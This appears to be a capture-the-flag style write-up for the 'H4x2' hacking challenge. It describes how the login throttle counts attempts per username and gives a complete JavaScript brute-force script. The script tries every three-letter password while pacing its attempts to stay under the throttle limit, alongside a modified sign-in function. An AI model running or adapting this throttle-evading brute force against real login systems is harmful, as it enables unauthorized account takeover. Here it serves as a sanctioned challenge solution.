

<h2>Online Password Brute Force</h2>

TLDR: I ran a code to online bruteforce the password

If you played around with the login system, you probably noticed that it stops you from attempting too many times in a row. For those who are new, this throttling mechanism also existed in iteration 1. 
However, this time it's slightly different. In iteration 1, throttling was triggered by the IP address, while this iteration's throttling was based on the username 
(i.e. trying to log in with the same username multiple times triggers the throttle).

I located the code for throttling in H4x2-Node/H4x2-Node/Components/ThrottlingManager.cs:



It says that the website allows you to send the same username 10 times to the orks before they start throttling you (for 60 seconds initially) 
but in practice, you only get 5 chances. This is probably because  data is sent to the orks twice per authentication (I'm not entirely sure)

So I created a bruteforcing script that tries all the letter combos from AAA -> ZZZ, where it would: try 5 -> wait 60+ seconds -> try the next 5 -> wait 60+ seconds .... as to never trigger the throttle 
doing some quick maths:

there are 26^3 = 17576 letter combinations in total.

if trying 5 passwords takes 63 seconds, trying all 17576 combos would take....

17576 * 63/5 = 221458 seconds = 61.5 hours

so about two days and a half, in the worst case. Fortunately, it finished in about a day and a half

Here's the code I used to brute force:

```
export async function getRandom() {

  var config = {
    simulatorUrl: 'https://h4x22simulator.azurewebsites.net/',
    vendorUrl: 'https://h4x22ork2.azurewebsites.net/'
  }

  const throttleTime = 63
  var count = 0
  const username = 'test'

  for (let i = 0; i < 26; i++) {
    var first = String.fromCharCode(65 + i)
    for (let j = 0; j < 26; j++) {
      var second = String.fromCharCode(65 + j)
      for (let k = 0; k < 26; k++) {
        var third = String.fromCharCode(65 + k)
        const bruteVal = first + second + third

        var signin = new SignIn(config);
        try {
          var decrypted = await signin.start(username, bruteVal, 'https://h4x22vendor.azurewebsites.net/')
          console.log(bruteVal, ":", decrypted);
          alert(bruteVal + ": " + decrypted);
          return
        }
        catch {
          console.log(bruteVal, ": null")
        }

        count += 1;
        if (count == 5) {     // throttle triggers at 6 sign-ins in a row. After 5 sign-ins, wait for a minute to cool down 
          wait(throttleTime)
          count = 0;
        }
      }
    }
  }
}

function wait(s) {
  var start = new Date().getTime();
  var end = start;
  while (end < start + s * 1000) {
    end = new Date().getTime();
  }
}
```

and since I am running this code on a locally hosted client, I slightly modified the signin.start() function in SignIn.js to take one more argument, the real vendor url (rather than the local one). 

```
    /**
     * Authenticates a user to the ORKs and decrypts their encrypted secret held by vendor.
     * @param {string} username 
     * @param {string} password 
     * @returns {Promise<string>}
     */
    async start(username, password, vendorUrl) {    <------added vendorUrl as an argument
        //hash username
        const uid = Bytes2Hex(await SHA256_Digest(username)).toString();
        //convert password to point
        const passwordPoint = (await Point.fromString(password));

        // get ork urls
        const simClient = new SimulatorClient(this.simulatorUrl);
        const orkInfo = await simClient.GetUserORKs(uid);
        // console.log("orkInfo", orkInfo)

        const prismFlow = new PrismFlow(orkInfo);
        const CVK = await prismFlow.Authenticate(uid, passwordPoint);

        const vendorClient = new VendorClient(vendorUrl, uid);
        const encryptedCode = await vendorClient.GetUserCode();
        console.log("encryptedCode", encryptedCode)

        return await decryptData(encryptedCode, BigIntToByteArray(CVK));
    }
```
